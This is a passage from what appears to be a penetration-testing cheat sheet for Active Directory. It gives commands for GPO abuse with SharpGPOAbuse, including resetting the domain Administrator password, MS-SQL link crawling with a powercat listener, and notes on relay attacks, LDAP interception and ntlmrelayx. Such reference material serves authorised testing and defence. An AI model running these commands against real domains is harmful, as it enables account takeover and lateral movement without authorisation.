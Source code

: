 ### Abusing Vulnerable GPO
```
\SharpGPOAbuse.exe --AddComputerTask --Taskname "Update" --Author DOMAIN\<USER> --Command "cmd.exe" --Arguments "/c net user Administrator Password!@# /domain" --GPOName "ADDITIONAL DC CONFIGURATION"
```

### Abusing MS-SQL Service

```
. ./PowerUPSQL.ps1
Get-SQLInstanceLocal -Verbose
(Get-SQLServerLinkCrawl -Verbose -Instance "10.10.10.20" -Query 'select * from master..sysservers').customquery Import-Module .\powercat.ps1 powercat -l -v -p 443 -t 10000
```

### Relay attacks
<img src="./images/smb_relay.png" width="700"/>

### Drop the MIC CVE-2019-1040
- https://securityboulevard.com/2019/06/drop-the-mic-cve-2019-1040/

### Exploiting ACL over GPO
- https://github.com/Group3r/Group3rhttps://github.com/Group3r/Group3r

### Insecure LDAP: LDAPS / Signing / Channel Binding 
Insecure LDAP traffic can exposed clients to multiple vulnerabilities and exploitation path such as:
- Unencrypted LDAP (LDAPS) : Credential and authentication interception (port TCP-UDP/389)
- LDAP Signing disable : LDAP Relay attack (such as SMB Relay but using LDAP)
- LDAP Channel Binding : 

#### LDAPS
Domain controllers and clients are in constant exchange and use the LDAP protocol, which communicates via port 389 (TCP and UDP).

In case a customer use LDAP (389) instead of LDAPS (636) you will be able to intercept authentication and credentials.

Why LDAPS is not deployed everywhere:
- Not all devices are compatible with it (Old telephone systems or legacy applications)
- Small

*Note:* If SSL is used you can try to make MITM offering a false certificate, if the user accepts it, you are able to *Downgrade the authentication method* and see the credentials again.

#### LDAP Signing disable
LDAP signing adds a digital signature to the connection. It ensures the authenticity and integrity of the transmitted data. This means that the recipient can verify the sender and determine whether the data has been manipulated along the way.

In case LDAP signing is not enable it is possible to relay a valid LDAP session using *ntlmrelayx* for example.
The LDAP relay attack will give you the ability to perform multiple action such as :
